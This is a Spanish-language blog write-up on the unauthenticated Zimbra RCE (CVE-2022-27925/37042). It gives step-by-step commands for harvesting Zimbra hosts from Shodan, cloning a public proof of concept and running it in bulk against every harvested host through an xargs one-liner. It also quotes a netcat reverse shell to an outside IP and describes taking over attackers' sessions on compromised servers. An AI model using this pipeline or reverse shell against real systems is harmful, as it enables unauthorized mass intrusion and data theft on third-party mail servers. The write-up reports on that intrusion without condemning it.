# Explotación Activa Sobre  Zimbra CVE-2022-37042 (RCE Unauthenticated)

La siguiente investigación inicio tratando de entender las POC de varios repositorios en GitHub que compartieron muchos investigadores y termino en una sorpresa interesante, que compartiré en los siguientes parrafos. El 10 de agosto del presente año el grupo de investigación de seguridad Volexity publica en su cuenta de [twitter](https://twitter.com/Volexity/status/1557449272379031553) el descubrimiento de la explotación en masa de la suite de ZCS (Zimbra Collaboration Server) que permitir un bypass de la autenticación y que cerca de 1000 instancias de Zimbra se encontraban comprometidas a nivel mundial. 

En la investigación presentada por los colegas de [Volexity](https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/) mostraban parte de los logs consultados 

```
[attacker_ip] - - [30/Jun/2022:05:33:18 +0000] "POST [snipped]/service/extension/backup/mboximport?account-name=admin&ow=1&no-switch=true HTTP/1.0" 401 299 "[snipped]" "Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0" 7
```

 De igual manera explicaban la falla del código se debía a la función **doPost**,



El problema con este código es que se verifica la autenticación y se establece un mensaje de error, pero no hay una declaración de devolución. Esto significa que el código subsiguiente seguirá ejecutándose, independientemente del estado de autenticación del usuario. Siguiendo la función hacia abajo, un atacante solo necesita establecer los parámetros correctos en la URL para explotar la vulnerabilidad.

Una vez entendemos las posibles causas y ya habían salido algunos POCs, procedemos a realizar la explotación paso a paso, pero primero indagaremos sobre el estado utilizando la herramienta [greynoise](https://viz.greynoise.io/)



Observamos que a más de un mes de publicada el CVE-2022-27925 siguen realizando ataques

En shodan podemos observar alrededor de 45,223 instalaciones de Zimbra




### Requisitos

1. [VPS de Preferencia Ubuntu Server 20.04](https://www.vultr.com/?ref=8403796-6G)
2. Una cuenta de Shodan configurada para usar la CLI y su API
3. Tener **docker** instalado 
4. Instalar **jq** 


### POC

1. Enumeración de posibles targets

`shodan download --limit -1 zimbra.json.gz http.favicon.hash:"1624375939"`



Vamos a pasear los resultados

`shodan parse --fields ip_str,port --separator , zimbra.json.gz > zimbra.txt`


Vamos a revisar un poco los datos y darle el formato necesario para automatizar las pruebas



Parseamos los datos para poder utilizar un online




Utilizaremos httpx en docker



Descargamos la POC de GitHub 

`git clone https://github.com/vnhacker1337/CVE-2022-27925-PoC`



Probamos el oneliner con la Poc, es importante destacar que debemos mover el archivo parseado al directorio de la poc o llamarlo por la ruta absoluta, también utilizando el dump de shodan podemos utilizarlo

```
cat zimbra.json | jq -r '.hostnames[]' | docker run -i projectdiscovery/httpx -silent | xargs -I@ sh -c 'python3 zimbra-exploit.py @ 313.zip' | egrep -v '404|401|405|200'
```



Durante esta prueba muchos targets ya aparecen parchados


Finalmente obtuvimos un resultado





2. APT, botnets  y ransomware

Una vez explotada la vulnerabilidad observamos archivos que son scripts de **APT** para realizar la exfiltración de la información y la preparación del chantaje 




archivo malicio **gift**



Archivo de respaldo y exfiltración

  

Una de las rutas que encontramos contenía multiples webshells

`/opt/zimbra/jetty_base/webapps/zimbraAdmin/`



Un análisis de los procesos en ejecución demostró que se estaban instalando cronjobs para empaquetar los correos



**Nota:** lo siguiente fue realizado con fines educativos y a manera de realizar una buena acción


3. Toma de la shell instaladas por los APT

Una vez identificado la descarga de netcat procedimos a tomar la sesión de los atacantes, se observa el uso de netcat **`./nc 52.90.92.82 443 -e /bin/bash`**






Una vulnerabilidad reporta públicamente hace más de 30 días sigue estando vigente al momento de redactar este articulo, cabe destacar que se notificaron a los afectados sin éxito dado que sigue activa la vulnerabilidad. 